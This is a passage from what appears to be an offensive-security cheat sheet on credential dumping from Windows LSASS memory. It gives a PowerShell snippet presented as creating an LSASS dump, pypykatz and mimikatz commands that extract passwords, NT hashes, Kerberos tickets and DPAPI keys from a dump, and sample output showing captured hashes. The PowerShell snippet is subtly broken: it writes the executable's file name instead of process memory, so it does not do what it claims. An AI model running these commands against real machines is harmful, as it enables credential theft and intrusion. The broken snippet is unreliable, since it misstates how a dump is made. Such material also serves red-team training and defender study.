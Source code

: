 #### 4. Using PowerShell
```powershell
# Get LSASS process
$lsass = Get-Process lsass

# Create dump using .NET
$dumpFile = "C:\lsass.dmp"
$process = [System.Diagnostics.Process]::GetProcessById($lsass.Id)
[System.IO.File]::WriteAllBytes($dumpFile, $process.MainModule.FileName)
```

### Extracting Credentials from LSASS Dumps

#### Using Pypykatz (Linux)
```bash
# Basic extraction
pypykatz lsa minidump /path/to/lsass.dmp

# Save to file
pypykatz lsa minidump /path/to/lsass.dmp > credentials.txt

# Extract specific modules
pypykatz lsa minidump /path/to/lsass.dmp --kerberos-dir /tmp/kerberos
```

#### Using Mimikatz (Windows)
```cmd
# Load dump file
mimikatz.exe
sekurlsa::minidump lsass.dmp

# Extract credentials
sekurlsa::logonpasswords

# Extract Kerberos tickets
sekurlsa::tickets

# Extract DPAPI keys
sekurlsa::dpapi
```

### Credential Types in LSASS

#### MSV (Microsoft Authentication Package)
```bash
# Contains:
- Username
- Domain
- NT hash
- SHA1 hash
- DPAPI keys

# Example output:
== MSV ==
Username: bob
Domain: DESKTOP-33E7O54
LM: NA
NT: 64f12cddaa88057e06a81b54e73b949b
SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
```
